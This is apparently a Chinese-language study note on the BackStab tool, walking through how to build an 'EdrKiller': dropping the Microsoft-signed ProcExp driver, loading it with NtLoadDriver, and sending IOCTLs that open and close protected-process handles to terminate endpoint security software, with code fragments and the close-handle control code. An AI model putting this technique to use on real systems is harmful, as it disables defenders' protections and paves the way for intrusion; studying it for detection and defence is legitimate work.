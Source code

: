 ```yaml
---
title: EdrKiller
tags: tools
---
```


## 起因

通过阅读 [BackStab](https://github.com/Yaxser/Backstab) 的源码以及简介有感，学习一下该工具的思路

根据 BackStab 的介绍，整个流程为：

> #### OpSec
>
> Here is a quick rundown of what happens
>
> 1. Embedded driver is dropped to disk
> 2. Registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services is created
> 3. The privilege SE_PRIVILEGE_ENABLED is acquired because it is necessary to load the driver
> 4. Driver is loaded using NtLoadDriver to avoid creating a service
> 5. The created Registry key is deleted (service not visible during execution)
> 6. Communication with the driver is via using DeviceIoControl
> 7. For handle enumeration, NtQuerySystemInformation is called
>
> #### What you should also know
>
> 1. The behavior of the tool mimics that of ProcExp. ProcExp drops the driver to the disk, create registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services, calls NtLoadDriver, and then delete the registry key
> 2. You can specify the location to which the driver is dropped and the service name
> 3. When done, the app will unload the driver. The driver is unloaded by first re-creating the registry keys and then calling NtUnloadDriver
> 4. The loaded driver is signed by MS
> 5. The process does not attempt to directly kill protected processes handles, it instructs ProcExp driver to kill them. You won't be accused of attempting to tamper with any processes

简而言之就是加载自带微软官方签名的 ProcExp 驱动，利用其驱动函数做到 Kill EDR 的效果。

## 过程

### ProcEXP 驱动落地

加载 ProcEXP，就需要考虑 ProcEXP.sys 文件如何落地，BackStab 是采用资源文件写入磁盘的方式，落地一个 ProcEXP 文件，然后注册注册表时使用 ProcEXP 的路径，当然还可以直接上传一个 ProcEXP.sys 文件。这里还是复现它的操作：

+ 添加资源文件 –> 导入 ProcEXP.sys

  ![image-20210627190230590](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210627190230590.png)

  ![image-20210627190242606](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210627190242606.png)

+ 操作资源文件落地

  这一套其实也是标准流程，利用操作资源的多个 API 达到释放资源的效果

  + 首先用 FindResource 函数确定资源位置

    ```c
    HRSRC FindResourceA(
      HMODULE hModule,	//NULL 表示当前模块或进程
      LPCSTR  lpName,	//MAKEINTRESOURCE(ID)
      LPCSTR  lpType
    );
    ```

  + LoadResource 加载资源到内存中。

    ```c
    HGLOBAL LoadResource(
      HMODULE hModule,
      HRSRC   hResInfo
    );
    ```

  + LockResource 检索指向内存中指定资源的指针。

    ```c
    LPVOID LockResource(
      HGLOBAL hResData
    );
    ```

  + SizeofResource 计算资源大小

    ```
    DWORD SizeofResource(
      HMODULE hModule,
      HRSRC   hResInfo
    );
    ```

  + CreateFile 和 WriteFile 达到创建和写入的目的

（这种方法应该也可以用做免杀）

![image-20210627195746188](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210627195746188.png)

### 加载驱动

作者在加载驱动这一块做了描述，为了避免创建服务，使用了 NtLoadDriver，但是 NtLoadDriver 是内核态函数，要调用的话就需要使用 ntdll.dll：

```
NT_LOAD_DRIVER NtLoadDriver = (NT_LOAD_DRIVER)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtLoadDriver");
```

NtLoadDriver 函数的参数是注册表，在加载前还需要注册一个注册表，路径为 `HKEY_LOCAL_MACHINE\\System\\CurrentControlSet\\Services\\ProcEXP`

```
status = RegCreateKeyExW(HKEY_LOCAL_MACHINE, regPath, 0, NULL, 0, KEY_ALL_ACCESS, NULL, &hKey, &dwDisposition);
status = RegSetValueEx(hKey, L"Type", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"ErrorControl", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"Start", 0, REG_DWORD, (BYTE*)&dwData, sizeof(DWORD));
status = RegSetValueEx(hKey, L"ImagePath", 0, REG_SZ, (const BYTE*)driverPath, (DWORD)(sizeof(wchar_t) * (wcslen(driverPath) + 1)));
```

![image-20210627211804360](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210627211804360.png)

此时再调用 NtLoadDriver 加载驱动：

![image-20210628105357376](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210628105357376.png)

### 连接驱动

ProcEXP驱动已经加载完成后，就需要连接该驱动，以便使用驱动的导出函数 Kill 进程。

```
HANDLE hProcExp = CreateFileA("\\\\.\\PROCEXP152", GENERIC_ALL, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

连接使用的 CreateFileA，此 API 连接驱动时，驱动名称格式默认为 `\\\\.\\DeviceName`，这里的 DeviceName 并不是 PROCEXP，通过火绒剑查看：

![image-20210628135833251](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210628135833251.png)实际连接应该为 PROCEXP152

### 获取保护进程句柄

任务管理器直接关闭 EDR 是无法关闭的：

![image-20210628145917986](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210628145917986.png)

原因就是该进程有保护进程，所以要想 Kill EDR，就需要找到保护进程，参考[这篇文章](https://www.cnblogs.com/zmlctt/p/3979108.html)，简要了解一下隐藏进程和保护进程的概念。 

使用 DeviceIoControl 获取保护进程句柄：

```
DeviceIoControl(hProcExp, IOCTL_OPEN_PROTECTED_PROCESS_HANDLE, (LPVOID)&ulPID, sizeof(ulPID),&hProtectedProcess,sizeof(HANDLE),&dwBytesReturned,NULL);
```

### 获取保护进程PID下的所有句柄

先是使用了 NtQuerySystemInformation，这个 API 可以检索系统信息，包括系统进程、线程相关，任务管理器使用的就是这个 API

```c
fNtQuerySystemInformation _NtQuerySystemInformation = (fNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQuerySystemInformation");
```

利用这个 API 获取了系统内所有句柄信息，再去与之前保护进程句柄对应的 Pid 进行比较，找到对应的句柄信息，

```c
if (handleInfo.ProcessId == dwPID) 
{
			if (i % 15 == 0)
			{
				DWORD dwProcStatus = 0;
				GetExitCodeProcess(hProcess, &dwProcStatus);
				if (dwProcStatus != STILL_ACTIVE)
				{
					return;
				}
			}
			ProcExpKillHandle(dwPID, handleInfo.Handle);
		}
```

判断成功后会调用 ProcExpKillHandle 函数，这个函数是作者自己写的，目的就是关闭这个进程的句柄以达到关闭进程的目的，也是工具的核心。

但是在这之前还有一个 i % 15 == 0 的判断，这个判断的目的是每隔 15 个 Handle 检查一次进程是不是已经关闭了，这个数字可以随便调，其目的就是为了在已经关闭进程后能停止循环。

### 利用 ProcEXP 驱动发送 关闭句柄指令

ProcExpKillHandle 函数分为两部分，后一部分是通过 DeviceIoControl 发送 IOCTL_CLOSE_HANDLE 指令，前一部分就是针对这个指令所需要的各种参数。

```
DeviceIoControl(hProcExpDevice, IOCTL_CLOSE_HANDLE, (LPVOID)&ctrl, sizeof(PROCEXP_DATA_EXCHANGE), NULL,0,NULL,NULL);
```

DeviceIoControl 的第二个参数是操作的控制代码，也就是调用驱动内函数时的调用代码，BackStab 的作者应该是已经把 ProcEXP.sys 逆完了，已经了解了关闭句柄的控制代码以及所需参数：

```c
#define IOCTL_CLOSE_HANDLE 2201288708

typedef struct _ioControl
{
	ULONGLONG ulPID;
	PVOID lpObjectAddress;
	ULONGLONG ulSize;
	ULONGLONG ulHandle;
} PROCEXP_DATA_EXCHANGE, * PPROCEXP_DATA_EXCHANGE;
```

## 结果

根据上面的过程凑吧凑吧也能凑出一个只有删除功能的 EdrKiller

以火绒举例：

![image-20210629093739324](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629093739324.png)

![image-20210629093822512](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629093822512.png)